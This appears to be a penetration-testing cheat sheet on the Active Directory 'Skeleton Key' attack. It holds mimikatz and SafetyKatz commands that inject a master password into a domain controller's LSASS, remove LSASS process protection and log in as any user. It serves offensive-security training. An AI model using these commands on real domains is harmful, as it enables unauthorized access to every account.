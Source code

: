 # Skeleton Key

Skeleton key is a persistence technique where it is possible to inject malware to the Domain Controller LSASS process so that it allows access as any user with a single password. It helps to use one password to log in to all the accounts in the domain.

## Important to know:

* Require Domain Admin privileges
* Skeleton Key is not persistent across reboots
* Skeleton Key is not opsec safe and is also known to cause issues with AD CS

## Inject a skeleton key

```powershell
# needs DA privs
# password would be "mimikatz"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' 
# or with safetykatz
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Access any machine

```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/persistence/skeleton-key-attack" %}
